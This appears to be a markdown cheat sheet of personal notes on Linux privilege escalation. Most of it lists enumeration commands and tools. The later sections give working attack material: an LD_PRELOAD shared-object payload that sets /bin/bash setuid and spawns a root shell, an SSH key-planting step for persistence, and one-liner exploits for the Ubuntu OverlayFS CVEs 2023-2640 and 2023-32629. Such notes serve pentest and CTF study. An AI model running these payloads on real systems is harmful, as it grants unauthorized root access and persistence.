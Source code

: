 ```yaml
---
title: Linux
---
```


# Linux Privilege Escalation
## Enum tools
- [Lin Peas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
- [pspy](https://github.com/DominicBreuker/pspy)
- [Lin Enum](https://github.com/rebootuser/LinEnum)
- [RustScan](https://github.com/RustScan/RustScan)

## Resources
- [gtfobins](https://gtfobins.github.io/gtfobins/ssh/)
- [hacktricks (linux)](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-path-abuses)
- [hacktricks (windows)](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation)

## Enum Basics
### Current logged user
```bash
whoami
```

### Current user groups
```bash
id
```

### Machine's domain name                                 
```bash
hostname
```

### OS version
```bash
cat /etc/os-release
```

### Kernel version
```bash
uname -a
```
```bash
cat /proc/version
```

### Additional host info
```bash
lscpu
```

### Network interfaces
```bash
ifconfig
```
```bash
ip addr
```

### Routing table
```bash
netstat -rn
```
```bash
route
```

### Arp table (other hosts)
```bash
arp -a
```

### Drives and shares
```bash
lkblk
```

### Mounts
```bash
cat /etc/fstab
```

### Mounted file systems
```bash
df -h
```

### Unmounted file systems
```bash
cat /etc/fstab | grep -v "#" | column -t
```

### What can we run as root?
```bash
sudo -l
```

### Is path misconfigured?
```bash
echo $PATH
```

### Environment variables
```bash
env
```

### Available shells
```bash
cat /etc/shells
```

### Existing users
```bash
cat /etc/passwd
```

### Existing groups
```bash
cat /etc/group
```

### Which users are in the sudo group?
```bash
getent group sudo
```

### Writable directories
```bash
find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null
```

### Writable files
```bash
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
```

## Things to look for
- Commands that contain credentials like `mysql -ptest123` get leaked in `ps`, use `pspy`
- Search for hashes/credentials, often in backups or configs

## Misc notes

### .so loading
```c
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("chmod u+s /bin/bash");
    system("/bin/bash -i");
}
```

```bash
gcc -fPIC -shared -o extension.so extension.c -nostartfiles
```

```bash
bash -p
```

### ssh private key

```bash
# victim
ssh-keygen -t rsa -b 4096
cat ~/.ssh/id_rsa.pub >> ~/.ssh/authorized_keys

# Host
## copy key to host
chmod 600 /path/to/id_rsa_custom
ssh -i /path/to/id_rsa_custom user@target_machine_ip
```

## CVEs

### CVE-2023-2640 | CVE-2023-32629

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("id")'
# Or
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*; u/python3 -c 'import os;os.setuid(0);os.system(\"id\")'"
```
